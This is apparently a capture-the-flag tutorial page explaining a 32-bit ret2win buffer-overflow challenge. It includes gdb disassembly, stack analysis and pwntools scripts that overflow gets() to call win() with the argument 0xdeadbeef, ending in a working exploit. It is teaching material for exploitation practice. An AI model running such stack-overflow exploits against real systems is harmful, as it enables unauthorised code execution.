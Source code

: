 ```yaml
---
description: Solving another ret2win, with a twist.
---
```


# args

{% file src="../../.gitbook/assets/args.zip" %}

Now that we've spent some time going over binaries in extreme detail, I am going to omit some of the initial details of the disassembly and focus more on the newer concepts. This binary is strikingly similar to the ret2win.

### Checking Security

```bash
$ checksec args
[*] '/home/joybuzzer/Documents/vunrotc/public/01-ret2win/args/src/args'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

All the security features are still disabled.

### Disassembly

Checking the functions list:

```as
gef➤  info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049040  __libc_start_main@plt
0x08049050  fflush@plt
0x08049060  gets@plt
0x08049070  puts@plt
0x08049080  system@plt
0x08049090  _start
0x080490d0  _dl_relocate_static_pie
0x080490e0  __x86.get_pc_thunk.bx
0x080490f0  deregister_tm_clones
0x08049130  register_tm_clones
0x08049170  __do_global_dtors_aux
0x080491a0  frame_dummy
0x080491a6  win
0x080491ef  read_in
0x0804923c  main
0x08049254  __x86.get_pc_thunk.ax
0x08049258  _fini
```

If we check `read_in()` and `main()`, we'll see that the two methods are identical. Let's check `win()`.

```as
gef➤  disas win
Dump of assembler code for function win:
   0x080491a6 <+0>:	push   ebp
   0x080491a7 <+1>:	mov    ebp,esp
   0x080491a9 <+3>:	push   ebx
   0x080491aa <+4>:	sub    esp,0x4
   0x080491ad <+7>:	call   0x8049254 <__x86.get_pc_thunk.ax>
   0x080491b2 <+12>:	add    eax,0x2e4e
   0x080491b7 <+17>:	cmp    DWORD PTR [ebp+0x8],0xdeadbeef
   0x080491be <+24>:	je     0x80491d6 <win+48>
   0x080491c0 <+26>:	sub    esp,0xc
   0x080491c3 <+29>:	lea    edx,[eax-0x1ff8]
   0x080491c9 <+35>:	push   edx
   0x080491ca <+36>:	mov    ebx,eax
   0x080491cc <+38>:	call   0x8049070 <puts@plt>
   0x080491d1 <+43>:	add    esp,0x10
   0x080491d4 <+46>:	jmp    0x80491ea <win+68>
   0x080491d6 <+48>:	sub    esp,0xc
   0x080491d9 <+51>:	lea    edx,[eax-0x1fee]
   0x080491df <+57>:	push   edx
   0x080491e0 <+58>:	mov    ebx,eax
   0x080491e2 <+60>:	call   0x8049080 <system@plt>
   0x080491e7 <+65>:	add    esp,0x10
   0x080491ea <+68>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080491ed <+71>:	leave  
   0x080491ee <+72>:	ret   
```

The most glaring part of this function is the call to `cmp`, a comparison function. `cmp` is used in assembly to manage `if` statements.

* The first instruction is `cmp`, which takes in the two values to compare. This returns a value of `0` if the two values are equal, `1` if the first value is greater than the second, and `-1` if the first value is less than the second.
* The next instruction is a "_jump if_" instruction. These are used in tandem with `cmp` to decide where we go. In this case, the program decides to _jump if equal_ (`je`). `je` takes an address: where in the function you want to jump to.

Let's check out the two routes:

* If the first value (`DWORD PTR [rbp+0x8]`) is equal to `0xdeadbeef`, then we move to `win+48`. If we follow `win+48`, we see that this reaches `system`.
* If `DWORD PTR [rbp+0x8]` is not equal, it will continue instructions. However, there is a `jmp` call, which is going to jump to `win+68`, which skips the `system` call.

_What is `DWORD PTR [rbp+0x8]`?_ Let's think about it in terms of the stack. The stack frame is going to be located at `rbp`. After `rbp` is going to be the _return pointer_, as we saw in our stack frame from earlier:

```
   |-- rsp
   v
[... | ... buffer for function ... | base pointer | return pointer | ... ]
```

That means that at `rbp+0x8` holds the last thing pushed to the stack _before the `win()` function was called_. **This is the (first) parameter that's passed to the function.** Subsequent items on the stack would serve as the following parameters.

This tells us that we need to pass the parameter `0xdeadbeef` to the `win()` function. Since this is 32-bit, let's just pass it right after the return pointer!

```python
from pwn import *

proc = process('./args')

cmp = 0xdeadbeef
f_win = 0x080491a6

payload = b'A' * 0x34
payload += p32(f_win)
payload += p32(cmp)

proc.sendline(payload)
proc.interactive()
```

We pass `cmp` through `p32()` for two reasons: (1) we need it to be little-endian, and (2) we need it to be the entire parameter size.

Running this yields doesn't work!

```bash
[+] Starting local process './args': pid 5882
[*] Switching to interactive mode
Good luck winning here!
You lose!
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Process './args' stopped with exit code -11 (SIGSEGV) (pid 5882)
```

What went wrong? If we do some digging, we'll find that _You lose!_ gets printed whenever we don't match the correct argument:

```as
──── arguments (guessed) ────
puts@plt (
   [sp + 0x0] = 0x0804a008 → "You lose!"
)
```

(_If you're struggling to find this for yourself, attach a gdb instance to your exploit and then step through it until you reach the `puts` call._)

What is happening? Checking the stack frame at the time of the `cmp` call shows us:

```as
gef➤  x/20wx $esp
0xffdcb134:	0x41414141	0x41414141	0x41414141	0xdeadbeef
0xffdcb144:	0x00000000	0xf7fba020	0xf7c21519	0x00000001
0xffdcb154:	0xffdcb204	0xffdcb20c	0xffdcb170	0xf7e2a000
0xffdcb164:	0x0804923c	0x00000001	0xffdcb204	0xf7e2a000
0xffdcb174:	0xffdcb204	0xf7fb9b80	0xf7fba020	0xa1d90556
gef➤  x/wx $ebp+0x8
0xffdcb144:	0x00000000
```

We're off by one chunk? _Why is that?_ Since we're jumping to `win()` by changing the value of the return pointer, rather than going there via `call win`, a return pointer is never pushed on the stack. However, since the code doesn't expect us to do this, it treats the stack as if there still is one.

{% hint style="warning" %}
_In our code, `0xdeadbeef` is actually serving as the return pointer for `win()`. If you continue execution, you'll notice you end up at this address:_

```as
[#0] Id 1, Name: "args", stopped 0xdeadbeef in ?? (), reason: SIGSEGV
```
{% endhint %}

This is an easy fix. All we need to do is allocate space for a return pointer in our payload. Since it doesn't matter to us what it is, because we'll have already gotten our data by the time it's ever reached, we can just use `0x0`:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

proc = process('./args')

cmp = 0xdeadbeef
f_win = 0x080491a6

payload = b'A' * 0x34
payload += p32(f_win)
payload += p32(0x0)
payload += p32(cmp)

proc.sendline(payload)
proc.interactive()
```
{% endcode %}

(_You could use something like `main` ensuring that the program doesn't crash, but it's unnecessary._)

Running this works!

```bash
[+] Starting local process './args': pid 6081
[*] Switching to interactive mode
Good luck winning here!
cat: flag.txt: No such file or directory
[*] Got EOF while reading in interactive
$ 
[*] Process './args' stopped with exit code -11 (SIGSEGV) (pid 6081)
[*] Got EOF while sending in interactive
```

Running this on the remote server will get your flag!
